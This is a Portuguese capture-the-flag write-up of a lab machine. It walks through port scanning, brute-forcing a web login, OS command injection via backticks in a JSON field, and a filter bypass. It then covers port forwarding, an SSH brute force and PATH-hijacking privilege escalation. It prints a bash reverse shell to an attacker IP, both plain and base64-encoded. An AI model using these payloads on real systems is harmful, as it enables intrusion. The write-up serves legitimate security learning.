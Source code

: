 ## Reconhecimento
Iniciamos a máquina realizando o clássico scan de portas com o Nmap.
![Nmap](recon/nmap.png)

Ao acessar a página Web na porta 80 percebmos que ele requisitava uma autenticação. Com isso só nos sobrou tentou explorar o SMB sendo executado na porta 139 e 445. Inicialmente, procurei por vulnerabilidade conhecidas como Eternal Blue. Entretando o serviço não aparentava estar vulnerável a nenhuma CVE. Indo para o próximo passo, resolvi tentar enumerar algumas informações. Para isso usei o `enum4linux` e consegui algumas informações interessantes com ele. O que me chamou mais a atenção foram dois usuários: `fox` e `rascal` .
![Força Bruta HTTP](recon/smb_users.png)

Com esses usuários resolvi fazer alguns ataques de força bruta na autenticação Web e no próprio SMB usando o THC Hydra. Utilizei da `rockyou` como wordlist e em alguns minutos já possuía as credenciais para a autenticação Web usando o usuário do rascal. 
![Força Bruta HTTP](recon/brute_http.png)

## Exploração
Após autenticar na página me deparei com uma aplicação simples, contendo apenas um campo de busca que retornava no máximo 3 arquivos: 
* creds2.txt;
* fox.txt
* important-data.txt
![home](recon/home.png)

Pelas extensões de tipo texto imaginei que isso não estaria salvo em mum banco de dados. Então descartei um SQL Injection e fui tentar algo que me fazia mais sentido: [OS Injection](https://portswigger.net/web-security/os-command-injection). Ao tentar adicionar concatenadores ded comando como ";", "&" e "|" percebi que havia algum tipo de filtro nesse campo. 
![Filtro no front-end](recon/front_end_filter.gif)

Por sorte aparentava ser apenas uma verificação no front-end, então eu apenas interceptei o tráfego com o Burp Suite e modifiquei o campo `target` da requisição. Tentei várias payload e a primeira que deu resultado foi utilizando '`' - acento grave - que no bash executa um comando de dentro de uma string. Utilizei do seguinte JSON para provar a falha: 
```{"target":"`sleep 5`"}```

Como o Servidor demorou a responder pudemos ter certeza que o comando *sleep* foi executado. A partir disso tentei executar uma shell reversa, porém me deparei novaemnte com um filtro. Dessa vez no back-end, então seria mais chato de fazer o bypassar. 
```{"target":"`bash -i >& /dev/tcp/10.6.61.255/4242 0>&1`"}```
![Filtro de Reverse](exploit/filter.png)

Depois de me frustrar bastante, consegui encontrar um jeito de fazer o bypass através de um codificação com base64. Nessa payload eu estou mandando o servidor imprimir (echo) um valor codificado em base 64, que é a mesma payload que usei anteriormente. Após isso, o pip - `|` - joga saída no comando `base64 -d` decodifica o valor para a Shell Reversa original e por fim outro pipe para jogar essa saída no `bash`, executando meu código malicioso.
{"target":"`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC42LjYxLjI1NS80MjQyIDA+JjE= | base64 -d | bash`"}
![Bypass](exploit/bypass_filter.png)
![Reverse Shell](exploit/reverse_shell.png)
Estamos dentro do servidor com o usuário `www-data`!!

## Movimentação Lateral
Agora começamos a fase de enumeração local buscando vetores de movimentação. Após um tempo procurando percebi que havia uma porta 22 aberta locamente o que indicaria que seria possível realizar uma sessão SSH para outro usuário. Verificar o arquivo de configuração do SSH percebemos que apenas o usuário *fox* possui essa permissão. 
![SSH Config](privesc/sshd_config.png)

Para explorar isso eu realizei um *Port Foward*, fazendo com que um serviço rodando em uma porta local seja exposto em uma outra porta externa. Foi necessário primeiro enviar um binário `socat` a partir da minha máquina para o servidor, utilizei minha máquina como servidor web e baixei-o no alvo com um `wget`.
![Web Server Socat](privesc/web_server_socat.png)
![Wget Socat](privesc/wget_socat.png)

Após isso, basta executar nosso socat abrindo a porta 9595 refletindo o serviço SSH local da porta 22.
![Port Foward](privesc/port_fowarding.png)
Agora basta realizar outro ataque de força bruta. 
![Brute SSH](privesc/brute_ssh.png)
![Fox Shell](privesc/fox_shell.png)
Logados em outro usuário já é possível obter a *"user flag"* na home do fox.

## Movimentação Horiontal
A enumeração aqui foi simples, apenas executei um `sudo -l` e percebi que o usuário podia executar o binário shutdown como root. 
![Sudo](privesc/sudo.png)

Para analisá-lo melhor mandei para minha máquina utilizando a técnica do sevidor web.  
![Shutdown Server](privesc/shutdown_server.png)
![Getting Shutdown](privesc/getting_shutdown.png)

Ao executar o comando `strings` no bináro vemos que há uma chamada para o binário `poweroff`. Esse será nosso vetor de escalação! A técnica aqui não é tão simples, vamos precisar de 3 passos basicamente:
- Adicionar a pasta /tmp no início do PATH para que ele tenha prioridaded sobre os outros bináros
- Clonar o `/bin/bash` para a pasta /tmp renomeando-o para `poweroff`
- Executar `sudo /usr/sbin/shutdown` 

![Root](privesc/root.png)
